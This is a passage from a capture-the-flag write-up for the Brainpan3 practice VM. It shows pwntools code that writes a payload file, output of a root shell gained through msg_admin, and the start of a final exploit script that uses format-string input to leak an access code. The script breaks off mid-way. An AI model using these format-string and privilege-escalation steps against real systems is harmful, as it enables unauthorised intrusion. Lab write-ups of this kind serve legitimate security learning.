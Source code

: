 ```python
for b in data:
    pwnmsg_file += '\\x{}'.format(b.encode('hex'))

r.sendline('''python -c "print '{}'" >> /opt/.messenger/pwn.msg'''.format(pwnmsg_file))
```

At this point, we think we win. Let's see...

```
[+] Shell received: puck
[*] '/home/ctf/ctfs/brainpan3/msg_admin'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
[*] Loaded cached gadgets for 'msg_admin'
[*] Wait for your r00t shellz
[*] Bingo!
[*] uid=1001(puck) gid=1004(dev) euid=0(root) groups=0
```

And with that, we win! Thanks much to [@superkojiman](https://twitter.com/superkojiman) for the awesome VM.

## Final exploit video

<script type="text/javascript" src="https://asciinema.org/a/9xak3o6gs2gpss0n3ey5lp2nh.js" id="asciicast-9xak3o6gs2gpss0n3ey5lp2nh" async></script>

## Final exploit

```python

from pwn import *
import string
import random


r = remote('192.168.224.154', 1337)
# Leak stack
# print r.recv()
r.clean()

###
# Get access code
###
r.sendline('%d.' * 3 + 'A' * 80)
r.recvuntil("ACCESS CODE: ")
output = r.recv()
code = output.split('.')[2]

log.info("Code identified: {}".format(code))

r.sendline(code)

log.info("Turning on reporting..")

###
#  Turn on reporting
###

r.sendline('3')
shellcode = '%x.' * 70
```